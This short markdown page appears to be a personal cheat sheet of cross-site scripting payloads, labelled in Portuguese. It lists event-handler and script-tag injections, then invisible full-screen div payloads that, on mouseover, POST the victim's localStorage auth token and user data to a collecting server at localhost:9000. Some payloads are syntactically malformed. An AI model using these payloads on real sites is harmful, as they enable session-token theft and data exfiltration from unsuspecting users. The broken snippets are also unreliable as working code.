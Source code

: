 
# Button
`<button onclick="Alert Hackeado">Click me</button>`

# On mouse over
`<div onmouseover="alert('injetado!')" style="width:100vw; height: 100vh; color:transparent"> </div>`

# Script
`<script>alert('123')</script>`
 
# Request HTTP
`<div onmouseover="axios.post('http://localhost:9000/sendToken', {}, {headers:{Authorization:localStorage['token']} }).then((result)=>{})" style="width:100vw; height: 100vh; color:transparent"></div>`


`<div onmouseover="axios.post('http://localhost:9000/sendDados', {}, {headers: 'Content-Type': 'application/json',},body: JSON.stringify(users),}).then((result)=>{})" style="width:100vw; height: 100vh; color:transparent"></div>`








